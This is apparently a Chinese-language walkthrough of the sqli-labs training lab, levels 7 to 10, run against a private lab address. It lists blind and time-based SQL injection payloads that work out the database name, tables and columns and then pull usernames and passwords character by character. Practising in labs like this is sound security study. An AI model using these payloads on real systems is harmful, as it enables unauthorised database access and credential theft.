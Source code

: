 ## Less-7(盲注)

```mysql
http://192.168.88.133/sql/Less-7?id=1'
报错，后面加--+依旧报错，改为'))后发现不报错了，此时便可开始注入
?id=1'))and length((select database()))>9--+
判断数据库名长度
?id=1'))and ascii(substr((select database()),1,1))=115--+
一个一个判断数据库的名字
?id=1'))and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
判断所有表名字符长度
?id=1'))and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
逐一判断表名
然后就是判断字段名，再逐一爆出字段内的内容，即username和password
很费时间！！！
```

## Less-8(盲注)

```mysql
和第七关差不多，将'))换成'就行
```

## Less-9(时间盲注)

```mysql
本题使用时间盲注的方法
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select database()),1,1))>100,sleep(0),sleep(3)) --+
爆出数据库名
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),1,1))>100,sleep(0),sleep(3)) --+
爆表名
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users'),1,1))>100,sleep(0),sleep(3)) --+
爆列名
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select group_concat(username,'~',password) from users),1,1))>100,sleep(0),sleep(3)) --+
爆信息
```

## Less-10(盲注)

```mysql
与Less-9一致，将单引号改为双引号即可
```

## Less-11(POST union)
